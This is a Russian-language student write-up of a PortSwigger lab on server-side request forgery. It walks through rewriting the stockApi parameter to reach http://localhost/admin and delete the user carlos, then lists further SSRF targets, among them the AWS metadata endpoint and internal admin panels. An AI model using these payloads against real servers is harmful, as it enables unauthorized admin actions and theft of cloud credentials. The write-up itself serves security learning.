






https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
задание- нужно попасть в панель админ, удалить юзера карлос.

---
на сайте есть функционал подгрузки числа товаров



вот ориг параметры

```http
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2

---- раскодир: ---------------------------------------------------------

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=2

----- разбор:


Протокол     Хост (сервис)        Порт       Путь к API              
     |              |                 |             |                            
     ▼              ▼                 ▼             ▼                           
     
  http://   stock.weliketoshop.net  :8080  /product/stock/check  ?
  
Параметры:
   |
   ▼
  productId=1    &   storeId=2
  
  
Порты 8080, 8443 часто используются для внутренних сервисов, административных панелей или отладочных версий. Публичные API чаще используют стандартные порты 80 (HTTP) или 443 (HTTPS). 


 смысл таков: Основной сервер** получает ответ от склада и **пересылает его пользователю в браузере.
  
  то есть этот запрос выполняется к внутреннму серверу
  
  
```

ответ вот такой: c числом параметров
```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

842
```


подменил адресс на проивольный apy - получил ответ 500 - значит до сервера достучался
уже зацепка




c запросом stockApi=http://localhost/admin получил доступ к админ панели




но не дает получить доступ к ее функциям
Admin interface only available if logged in as an administrator, or if requested from loopback
нужно быть залогинен, как админ или loopback запрос нужен

==**Loopback** — это виртуальный сетевой интерфейс, который существует **только на локальном компьютере** и не подключен к реальной физической сети. Его ещё называют **localhost**.==




перехватил запрос на функцию удаления юзера карлоса




так как панель требует действий через локальную сеть то я взял часть запроса пути из URL для удаления карлоса и подставил это в работающий параметр который позволил мне получить запрос админки




вот запрос на делит

```http
GET /admin/delete?username=carlos HTTP/2
```

вот параметр который позволил получить доступ к админке
```
stockApi=http%3A%2F%2Flocalhost%2Fadmin

stockApi=http://localhost/admin   -расшифр для наглядности
```

обьеденил
```
stockApi=http%3A%2F%2Flocalhost%2Fadmin/delete?username=carlos

stockApi=http://localhost/admin/delete?username=carlos   -расшифр для наглядности
```

-------
1. ✅ **Нашел уязвимый endpoint:** `/product/stock` с параметром `stockApi`
    
2. ✅ **Обнаружил SSRF:** Сервер делает запросы к указанному URL
    
3. ✅ **Определил правило доступа:** Админка доступна только с localhost
    
4. ✅ **Получил доступ к админке:** `stockApi=http://localhost/admin`
    
5. ✅ **Нашел endpoint удаления:** `/admin/delete?username=carlos`
    
6. ✅ **Скомбинировал payload:** `stockApi=http://localhost/admin/delete?username=carlos`
----

**Параметр `stockApi` "выполнил работу" потому что:**

1. **Сервер слепо доверял** содержимому этого параметра
    
2. **Сервер выполнял HTTP-запросы** по указанным в нем URL
    
3. **Сервер имел доступ** к своим же внутренним сервисам
    
4. **Внутренние сервисы доверяли** запросам с localhost
    
5. **Заставил сервер атаковать сам себя
    

 **SSRF (Server-Side Request Forgery)** - это когда атакующий заставляет сервер делать запросы от своего имени, обходя ограничения безопасности.


------

# Что еще можно сделать через эту уязвимость?
```http

stockApi=http://localhost/phpmyadmin/  # База данных
stockApi=http://localhost:8080/manager/html  Tomcat Manager
stockApi=http://169.254.169.254/latest/meta-data/  # AWS Metadata
stockApi=http://192.168.1.1/admin  # Роутер в локальной сети

```

# почему и как это все сработало?

сайт проверял ниличие товаров
при запросе сайт отправлял на сервер запрос с ссылкой внутренней

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2

по которой сервер находил нужное (в данном случае - число товаров)

затем подминив запрос на http://localhost
сервер получается черел localhost обратился сам к себе и выдал 500 ошибку
я понял что достучался кудато

http://localhost/admin
и теперь сервер вернул мне уже админ веб панель!

далее уже идет эксплуатация:

мне нужен был функционал удалить юзера
при нажити на кнопку эту перехватил ссылку

GET /admin/delete?username=carlos HTTP/2

в ней виден правильный адресс для этого действия

но выполнить не получилось, так этот запрос идет от внешней сети
а админка работает только от внутренних запросов

поэтому нужно обмануть сервер так чтобы он смог от себя как бы отправить запрос в админку, то есть нужно выполнить запрос от его имени 

поэтому я использовал запрос который смог выполнить действие через localhost
http://localhost/admin

и добавил к нему часть запроса где указан путь для нужного действия


stockApi=http://localhost/admin/delete?username=carlos 

и все получилось! я заставил сервак выполнить этот запрос от своего имени!

